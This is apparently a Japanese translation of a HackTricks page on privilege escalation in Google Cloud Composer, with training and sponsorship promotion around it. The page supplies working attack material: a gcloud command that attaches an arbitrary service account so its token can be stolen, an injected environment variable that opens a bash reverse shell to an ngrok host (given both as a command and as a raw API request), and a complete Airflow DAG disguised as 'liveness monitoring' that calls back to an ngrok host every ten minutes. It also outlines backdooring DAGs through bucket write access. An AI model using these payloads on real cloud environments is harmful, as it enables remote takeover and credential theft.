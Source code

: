 # GCP - Composer Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## composer

詳細情報は以下を参照してください:

{% content-ref url="../gcp-services/gcp-composer-enum.md" %}
[gcp-composer-enum.md](../gcp-services/gcp-composer-enum.md)
{% endcontent-ref %}

### `composer.environments.create`

その権限を持つ新しく作成されたcomposer環境に**任意のサービスアカウントを添付する**ことが可能です。後で、composer内でコードを実行してサービスアカウントトークンを盗むことができます。
```bash
gcloud composer environments create privesc-test \
--project "${PROJECT_ID}" \
--location europe-west1 \
--service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```
More info about the exploitation [**here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

composer 環境を更新することが可能で、例えば、環境変数を変更することができます：

{% code overflow="wrap" %}
```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
projects/<project-id>/locations/<location>/environments/<composer-env-name> \
--update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
--location <location> \
--project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```
{% endcode %}

TODO: 環境に新しいpypiパッケージを追加してRCEを取得する

### Dagsのダウンロード

実行中のdagsのソースコードを確認します：

{% code overflow="wrap" %}
```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```
{% endcode %}

### DAGのインポート

Python DAGコードをファイルに追加し、次のコマンドを実行してインポートします：

{% code overflow="wrap" %}
```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```
{% endcode %}

リバースシェルDAG:

{% code title="reverse_shell.py" %}
```python
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
'start_date': airflow.utils.dates.days_ago(0),
'retries': 1,
'retry_delay': timedelta(minutes=5)
}

dag = DAG(
'reverse_shell',
default_args=default_args,
description='liveness monitoring dag',
schedule_interval='*/10 * * * *',
max_active_runs=1,
catchup=False,
dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
task_id='bash_rev',
bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
dag=dag,
depends_on_past=False,
priority_weight=2**31 - 1,
do_xcom_push=False)
```
{% endcode %}

### Composerバケットへの書き込みアクセス

Composer環境のすべてのコンポーネント（DAG、プラグイン、データ）はGCPバケット内に保存されています。攻撃者がそれに対して読み取りおよび書き込み権限を持っている場合、バケットを監視し、**DAGが作成または更新されるたびに、バックドア付きのバージョンを提出する**ことで、Composer環境がストレージからバックドア付きのバージョンを取得することができます。

この攻撃に関する詳細情報は以下を参照してください：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

### プラグインのインポート

TODO: プラグインをアップロードすることで妥協できることを確認する

### データのインポート

TODO: データをアップロードすることで妥協できることを確認する

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
